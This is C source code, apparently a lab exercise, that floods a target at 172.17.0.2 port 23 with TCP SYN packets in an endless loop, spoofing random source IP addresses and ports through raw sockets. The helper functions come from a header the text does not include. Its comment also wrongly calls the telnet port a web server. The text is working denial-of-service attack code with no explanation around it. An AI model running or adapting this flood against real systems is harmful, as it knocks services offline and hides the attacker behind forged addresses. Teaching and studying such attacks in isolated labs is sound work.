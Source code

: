     #include "myheader.h"

    #define DEST_IP    "172.17.0.2"
    #define DEST_PORT  23  // Attack the web server
    #define PACKET_LEN 1500

    unsigned short calculate_tcp_checksum(struct ipheader *ip);
    void send_raw_ip_packet(struct ipheader* ip);


    /******************************************************************
    Spoof a TCP SYN packet.
    *******************************************************************/
    int main() {
    char buffer[PACKET_LEN];
    struct ipheader *ip = (struct ipheader *) buffer;
    struct tcpheader *tcp = (struct tcpheader *) (buffer +
                                    sizeof(struct ipheader));

    srand(time(0)); // Initialize the seed for random # generation.
    while (1) {
        memset(buffer, 0, PACKET_LEN);
        /*********************************************************
            Step 1: Fill in the TCP header.
        ********************************************************/
        tcp->tcp_sport = rand(); // Use random source port
        tcp->tcp_dport = htons(DEST_PORT);
        tcp->tcp_seq   = rand(); // Use random sequence #
        tcp->tcp_offx2 = 0x50;
        tcp->tcp_flags = TH_SYN; // Enable the SYN bit
        tcp->tcp_win   = htons(20000);
        tcp->tcp_sum   = 0;

        /*********************************************************
            Step 2: Fill in the IP header.
        ********************************************************/
        ip->iph_ver = 4;   // Version (IPV4)
        ip->iph_ihl = 5;   // Header length
        ip->iph_ttl = 50;  // Time to live
        ip->iph_sourceip.s_addr = rand(); // Use a random IP address
        ip->iph_destip.s_addr = inet_addr(DEST_IP);
        ip->iph_protocol = IPPROTO_TCP; // The value is 6.
        ip->iph_len = htons(sizeof(struct ipheader) +
                            sizeof(struct tcpheader));

        // Calculate tcp checksum
        tcp->tcp_sum = calculate_tcp_checksum(ip);

        /*********************************************************
        Step 3: Finally, send the spoofed packet
        ********************************************************/
        send_raw_ip_packet(ip);
    }

    return 0;
    }
